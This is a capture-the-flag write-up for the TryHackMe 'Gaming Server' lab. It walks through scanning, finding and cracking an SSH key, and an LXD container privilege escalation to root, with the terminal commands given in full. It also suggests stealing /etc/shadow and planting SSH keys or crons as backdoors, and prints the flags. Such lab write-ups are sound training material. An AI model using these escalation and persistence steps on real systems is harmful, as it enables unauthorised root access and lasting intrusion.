




# Write Up for Try Hack Me box - [Gaming Server](https://tryhackme.com/room/gamingserver)

Basic box with ssh key lying around like it's Christmas.\
Another LXD PROV ESC.

> Pratyush Prakhar (5#1NC#4N) - 03/01/2021

## RECONNAISSANCE

1. Scan the box with rustscan. Here are the results stored. --> [nmap dir](rustscan).

**Results**

```bash
Nmap scan report for 10.10.239.203
Host is up, received syn-ack (0.21s latency).
Scanned at 2024-02-17 18:09:06 EST for 14s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCrmafoLXloHrZgpBrYym3Lpsxyn7RI2PmwRwBsj1OqlqiGiD4wE11NQy3KE3Pllc/C0WgLBCAAe+qHh3VqfR7d8uv1MbWx1mvmVxK8l29UH1rNT4mFPI3Xa0xqTZn4Iu5RwXXuM4H9OzDglZas6RIm6Gv+sbD2zPdtvo9zDNj0BJClxxB/SugJFMJ+nYfYHXjQFq+p1xayfo3YIW8tUIXpcEQ2kp74buDmYcsxZBarAXDHNhsEHqVry9I854UWXXCdbHveoJqLV02BVOqN3VOw5e1OMTqRQuUvM5V4iKQIUptFCObpthUqv9HeC/l2EZzJENh+PmaRu14izwhK0mxL
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEaXrFDvKLfEOlKLu6Y8XLGdBuZ2h/sbRwrHtzsyudARPC9et/zwmVaAR9F/QATWM4oIDxpaLhA7yyh8S8m0UOg=
|   256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOLrnjg+MVLy+IxVoSmOkAtdmtSWG0JzsWVDV2XvNwrY
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: House of danak
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

2. There are **3 TCP** ports open. 
	1. *Port 22* - SSH - **OpenSSH 7.6p1** 
	2. *Port 80* - WEB - **Apache httpd 2.4.29**

3. Let's explore WEB part first. Then we can use SSH.

## WEB

1. Let's first check out the web server on port 80. 
	1. We get a default page with no important links going out. - Default HTML page.
	\
	
	2. We will go for the low hanging fruit - robots, page source and try to get some information. 
		1. Found some hint for the index web page to check out the `uploads` dir.
		2. Also, comments on the page source tell us about the user `john`.
		\
		
		\
		\
		

2. We will also start a directory buster on the side to check out other locations.

3. Checking out the `uploads` [dir](web/uploads).
	\
	
	1. We get a dictionary list - [dict.lst](web/uploads/dict.lst). This might come in handy later for some cracking.
	2. We get the great [hacker manifesto](web/uploads/manifesto.txt). Quite a cheeky touch. Might not be useful for the box though.
	3. Lastly is a odd image. MAybe we can throw some tools like **steghide** or **stegseek** at it with out dictionary. But no luck with even the rockyou.txt !!!!

4. Let's now check out our gobuster [results](web/gobust.out).
	1. We find a unusual directory - `secret`.
	\
	
	2. On checking we find a encrypted [ssh key](web/secret/secretKey) in it.
	3. Using our old friend hydra, we crack it pretty easy as [this](web/secret/ssh_key).


## INITIAL ACCESS - SSH

1. Let's now try to get in as john with all the details. And like that we ar ein. We can now read the user flag.

```bash
john@exploitable:~$ ls
user.txt
john@exploitable:~$ cat user.txt
********************************
```

2. Now let's try to get fish around and escalate to some other worthwhile user as holt has nothing. We also find through the [linpeas output](ssh/tmp/linpeas.out) that we are part of the the `lxd` group.

```bash
john@exploitable:~$ groups
john adm cdrom sudo dip plugdev lxd
```

3. We can use the following [method](https://www.hackingarticles.in/lxd-privilege-escalation/) to get the priv esc.

## PRIVESC

1. Using the following alpine [file](ssh/john/alpine-v3.13-x86_64-20210218_0139.tar.gz). Rest is easy peasy.

```bash
john@exploitable:/tmp$ ls
alpine-v3.13-x86_64-20210218_0139.tar.gz
linpeas.out
linpeas.sh
systemd-private-25657e7d469d4e9a906dca1ca5cf2b84-apache2.service-57552k
systemd-private-25657e7d469d4e9a906dca1ca5cf2b84-systemd-resolved.service-uz245v
systemd-private-25657e7d469d4e9a906dca1ca5cf2b84-systemd-timesyncd.service-OGxPro
john@exploitable:/tmp$ which lxc
/usr/bin/lxc
john@exploitable:/tmp$ lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias exploit
Image imported with fingerprint: cd73881adaac667ca3529972c7b380af240a9e3b09730f8c8e4e6a23e1a7892b
john@exploitable:/tmp$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |          UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
| exploit | cd73881adaac | no     | alpine v3.13 (20210218_01:39) | x86_64 | 3.11MB | Feb 17, 2024 at 11:50pm (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
john@exploitable:/tmp$ lxc init exploit  ignite -c security.privileged=true
Creating ignite
john@exploitable:/tmp$ lxc config device add ignite mydevice disk source=/ path=/mnt/backdoor recursive=true
Device mydevice added to ignite
john@exploitable:/tmp$ lxc start ignite 
john@exploitable:/tmp$ lxc exec ignite /bin/bash
john@exploitable:/tmp$ lxc exec ignite /bin/sh
~ # whoami
root
~ # bash
/bin/sh: bash: not found
~ # /bin/bash
/bin/sh: /bin/bash: not found
~ # which nc
/usr/bin/nc
~ # cd /root/
~ # ls
~ # ls -la
total 12
drwx------    2 root     root          4096 Feb 17 23:51 .
drwxr-xr-x   19 root     root          4096 Feb 17 23:51 ..
-rw-------    1 root     root            54 Feb 17 23:52 .ash_history
~ # cd /mnt/backdoor/
/mnt/backdoor # ls
bin             home            lost+found      root            swap.img        vmlinuz
boot            initrd.img      media           run             sys             vmlinuz.old
cdrom           initrd.img.old  mnt             sbin            tmp
dev             lib             opt             snap            usr
etc             lib64           proc            srv             var
cd /root/
cat .ash_history 
~ # ls
~ # ls -la
total 12
drwx------    2 root     root          4096 Feb 17 23:51 .
drwxr-xr-x   19 root     root          4096 Feb 17 23:51 ..
-rw-------    1 root     root           113 Feb 17 23:52 .ash_history
~ # cd /mnt/backdoor/
bin/         dev/         lib/         media/       proc/        sbin/        sys/         var/
boot/        etc/         lib64/       mnt/         root/        snap/        tmp/
cdrom/       home/        lost+found/  opt/         run/         srv/         usr/
/mnt/backdoor/root # ls
root.txt
/mnt/backdoor/root # cat root.txt 
********************************
```

## EXTRA TREAT 

1. We can now obtain the [following files](ssh/etc) easily that can be used later.
	1. **/etc/passwd**
	2. **/etc/shadow**
	3. **/etc/hosts**
	4. **/etc/sudoers**
	5. **/etc/crontab**
	6. **/proc**

2. We can also add [our *ssh keys*](ssh/gs.pub) to `authorized_keys` to get a foothold on the box. You can use other methods like crons and process hijacking as well to plant a backdoor.

3. Find out more with the linpeas scans that can be obtained [here](ssh/tmp/linpeas.out).

4. That is it. Shutting down.....

## BROWNIE POINTS

1. User.txt - **a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e**

2. root.txt - **2e337b8c9f3aff0c2b3e8d4e6a7c88fc**

**Stay Tuned On**\
[GitHub](https://github.com/pratty010/Boxes)\
[LinkedIn](https://www.linkedin.com/in/pratyush-prakhar/)